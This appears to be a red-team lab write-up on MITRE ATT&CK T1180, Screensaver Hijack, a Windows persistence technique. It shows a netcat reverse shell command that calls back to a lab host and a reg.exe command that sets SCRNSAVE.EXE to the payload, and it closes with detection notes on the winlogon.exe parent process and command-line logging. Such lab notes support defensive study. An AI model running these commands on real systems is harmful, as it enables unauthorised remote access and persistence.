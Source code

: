 ```yaml
---
description: Hijacking screensaver for persistence.
---
```


# T1180: Screensaver Hijack

## Execution

Attacker has a binary that upon execution sends him a reverse shell. To achieve persistence, the attacker can hijack the `SCRNSAVE.EXE` value in `HKCU\Control Panel\Desktop\` to point it to his payload. In my test, I used a netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd@victim" %}
```bash
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

For simplicity of this exercise, I am using regedit to update the registry \(as if the attacker got the RDP access\):

![](../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native windws binary reg.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs - this process ancestry is highly suspect and should make you want to investigate machine further:

![](../.gitbook/assets/screensaver-shell%20%281%29.png)

Commandline line argument monitoring:

![](../.gitbook/assets/screensaver-logs.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1180\",\"type\":\"link\",\"title\":\"Screensaver - ATT&CK for Enterprise\"}" %}



